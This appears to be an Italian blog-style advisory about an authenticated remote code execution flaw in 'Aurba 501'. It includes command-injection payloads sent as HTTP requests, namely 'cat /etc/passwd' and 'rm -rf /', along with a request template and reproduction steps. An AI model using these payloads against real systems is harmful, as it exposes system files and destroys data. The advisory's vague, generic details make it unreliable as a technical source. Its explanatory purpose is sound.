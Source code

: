 ```yaml
---
layout: post
title: '[webapps] Aurba 501 - Authenticated RCE' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# Aurba 501 - Authenticated RCE: Una vulnerabilità di sicurezza critica

## Introduzione

L'Aurba 501 - Authenticated RCE è una grave vulnerabilità di sicurezza che consente l'esecuzione remota di codice (Remote Code Execution, RCE) su un dispositivo compromesso, a patto che l'attaccante abbia ottenuto l'accesso autenticato al sistema. Questo tipo di vulnerabilità è particolarmente pericolosa a causa del suo potenziale di danni ad ampio raggio e del livello di controllo che offre a un attaccante sul dispositivo compromesso. 

## Dettagli della vulnerabilità

La vulnerabilità si verifica quando un attaccante autenticato riesce a iniettare comandi arbitrari nell'interfaccia di amministrazione dell'Aurba 501. Le versioni del software interessate non sono state specificate, tuttavia, si presume che tutte le versioni che non hanno implementato la corrispondente patch di sicurezza siano vulnerabili.

## Esempio di Payload Semplice

Qui di seguito troverete un esempio di payload che potrebbe essere utilizzato per sfruttare la vulnerabilità.

```
{{% raw %}}
```
GET /command.php?command=cat /etc/passwd
```
{{% endraw %}}
```

## Esempio di Payload Avanzato

Un esempio di un payload più avanzato, che potrebbe essere utilizzato per sfruttare la vulnerabilità nel mondo reale è il seguente:

```
{{% raw %}}
```
POST /command.php HTTP/1.1
Host: vulnerable-host
Content-Type: application/x-www-form-urlencoded
Content-Length: length

command=rm -rf /
```
{{% endraw %}}
```

## Procedura per riprodurre la vulnerabilità

Per riprodurre la vulnerabilità, un attaccante dovrebbe seguire questi passi:

1. Ottenere l'accesso autenticato all'interfaccia di amministrazione dell'Aurba 501.
2. Creare un payload che contenga il comando desiderato.
3. Inviare il payload al server tramite una richiesta HTTP GET o POST.

## Richiesta HTTP

La seguente richiesta HTTP può essere utilizzata per inviare il payload:

```
{{% raw %}}
```
POST /command.php HTTP/1.1
Host: vulnerable-host
Content-Type: application/x-www-form-urlencoded
Content-Length: length

command=<COMMAND_TO_EXECUTE>
```
{{% endraw %}}
```

## Impatto della vulnerabilità

Le potenziali conseguenze di questa vulnerabilità sono estremamente gravi. Un attaccante potrebbe essere in grado di eseguire qualsiasi comando sul sistema compromesso, con il potenziale di accedere a dati sensibili, installare malware, o addirittura prendere il completo controllo del sistema.

## Patch e Mitigazioni

I dettagli su eventuali patch o mitigazioni rilasciate dal fornitore non sono noti al momento. Tuttavia, gli amministratori di sistema dovrebbero assicurarsi di aggiornare il loro software alla versione più recente e implementare misure di sicurezza come la limitazione dell'accesso all'interfaccia di amministrazione e l'utilizzo di autenticazione a più fattori.

## Conclusione

L'Aurba 501 - Authenticated RCE è una vulnerabilità di sicurezza critica che richiede un'attenzione immediata. Tutti i sistemi che utilizzano il software vulnerabile dovrebbero essere aggiornati alla versione più recente o protetti con misure di sicurezza appropriate.

## Considerazioni

Questa vulnerabilità sottolinea l'importanza dell'autenticazione e dell'autorizzazione nella sicurezza dei sistemi informatici. Se un attaccante è in grado di ottenere l'accesso autenticato a un sistema, può eseguire una vasta gamma di attacchi, incluso l'esecuzione remota di codice. Questo rende l'autenticazione e l'autorizzazione componenti essenziali di qualsiasi strategia di sicurezza efficace.

